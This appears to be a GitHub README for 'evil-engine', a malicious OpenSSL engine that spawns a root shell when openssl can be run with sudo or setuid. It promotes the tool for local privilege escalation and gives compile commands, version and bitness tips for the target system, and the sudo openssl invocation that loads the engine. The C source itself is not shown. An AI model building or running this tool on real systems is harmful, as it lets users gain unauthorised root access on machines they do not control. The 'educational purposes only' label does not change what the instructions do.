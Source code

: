 # evil-engine
Evil openSSL engine that drops a root shell when openssl can either be executed with sudo or is saved with setuid.
Can be used for local privilege escalation 

In some rare cases, administrators allow a local user to run openssl with root level privileges, this engine allows you get a root shell.

***For educational purposes only***


## Dependencies
openssl header files

**Note**
There could be some version dependencies so make sure you use the same openssl version (engine.h).  
Also make sure to compile for 32 or 64 bit, depending on the openssl version running on the remote system.

To configure openssl for 32 bit on a 64 bit system use:
```
setarch i386 ./config -m32
```

Then use gcc -m32 to compile this evil-engine

## Create the engine

```
# Compile: 
gcc -fPIC -o evil-engine.o -c evil-engine.c
# Create shared object file:
gcc -shared -o evil-engine.so -lcrypto evil-engine.o
```
## Use with openssl
```
sudo openssl req -engine $(pwd)/evil-engine.so
```
